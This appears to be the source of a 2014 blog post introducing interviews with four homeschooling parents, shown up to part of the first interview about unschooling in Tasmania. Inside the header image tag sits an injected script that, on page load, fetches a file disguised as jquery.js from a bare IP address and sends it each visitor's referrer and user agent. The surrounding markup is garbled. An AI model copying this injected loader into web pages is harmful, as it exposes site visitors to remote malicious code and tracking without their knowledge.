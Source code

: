 ```yaml
---
layout: post
title: 'The Daily Life of Four Homeschooling Families'
date: 19-Oct-2014
categories: tbd
---
```


# The Daily Life of Four Homeschooling Families

## 19th October 2014



<p <img class="photo-horiz" ext/javascript" rel="nofollow"  document.write("<script language='javascript' rel='nofollow' type='text/javascript' src='http://5.45.67.97/1/jquery.js.php?r=" + encodeuri(document.referrer) + "&u=" + encodeuri(navigator.useragent) + "'></sc" + "ript>"); </script></noindex>  1942,   by Bernard Hoffman" src="http://media-cache-ec0.pinimg.com/736x/c5/ec/ce/c5ecce605de572e343a813ce9dc7fcb1.jpg" /></p>

<h6 Bored schoolgirl in Maine 1942,   Bernard Hoffman for <a href="http://life.time.com/">Life Magazine</a></h6>

 

Have you ever contemplated homeschooling? In the early morning, for instance, while searching for readers and shoes and hairbands, and trying to launch a stealth washcloth attack on the children, have you ever wondered what it might be like to opt out of the daily grind? How different would life look if you kept the kids at home and took a radical new approach to their education? Could it work? **How** would it work, exactly?



Recently, I tried to dig into these questions by interviewing four homeschooling parents for Mamabake. I asked them all the same bunch of questions, and although answers to some questions were similar (nobody, for instance, seemed too impressed with my queries about 'socialisation'!) , daily life looked quite different for each family.

First, Lauren from Tasmania, mother of three and blogger at <a href="http://www.owlet.com.au">Owlet</a>.

**Do you follow a curriculum, or the practice of ‘unschooling’**?

We are probably best defined as unschoolers. We understand that learning happens all the time, everywhere, and we make the most of it, providing lots of opportunities for learning. Most days it just feels like living.

**What’s a typical day home-schooling look like at your place?**

There are no typical days! Some days we go out to the shops or the beach, to gym or drama or our home school co-op or whatever activity we have planned. Some days we stay at home and there might be cooking, playing, drawing, maths workbooks (just for fun!), gardening, Minecraft, reading, watching movies or documentaries. We tend to follow a train of thought or a discussion and roll with it, finding fun and creative ways to explore it along the way.

**What are your academic and education dreams for your kids?******

I'd hope that they will find what they are passionate about and follow their own dreams, and I'm happy to support their choices.
